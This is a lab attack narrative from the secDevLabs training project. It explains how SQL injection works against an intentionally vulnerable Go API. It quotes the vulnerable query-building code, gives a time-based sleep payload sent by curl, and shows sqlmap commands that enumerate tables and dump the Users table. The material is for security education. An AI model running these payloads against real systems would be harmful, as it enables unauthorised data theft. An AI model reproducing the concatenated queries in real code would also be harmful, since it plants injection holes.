




# Attack Narrative - CopyNPaste API (Injection)

The main goal of this documentation is to describe how a malicious user could exploit an Injection vulnerability intentionally intalled on CopyNPaster API from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a1/copy-n-paste) yet, you should check them before reading this narrative. 

----

## 👀

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`]((https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/copy-n-paste/app/util/db.go#)) file, it was possibile to see that some input from users are concatenated with SQL queries, as shown in the following codes: 

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is present to these variables, SQL injections may be successfuly executed in the database. Using web interface, we send some information using form for inspect how web interface comunicates with API.



To confirm this, the following payload could be used that, if the application is indeed vulnerable, a 5 seconds delay will be noted after sending it:



Using `curl` on CLI interface, we can test again (with a 30 seconds delay):

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:3000/login 
```

Request:


30 seconds later: 


## 🔥

An attacker could now create any malicious SQL queries and send to the API that, in theory, will be executed. For this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed. 

To install sqlmap on Mac you can simply type:

```sh
brew install sqlmap
```

First possible step is to create a `postRequest.txt` containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Then we could use `-r` option and wait sqlmap perform multiples malicious requests until it finds the vulnerable parameter:

```sh
$ sqlmap -r postRequest.txt
```



After understanding how this database is structured, an attacker could use the following command to retrieve database details:

```sh
$ sqlmap -r postRequest.txt --tables
```

And then retrieve sensitive information from it:

```sh
$ sqlmap -r postRequest.txt -D a1db -T Users --dump
```


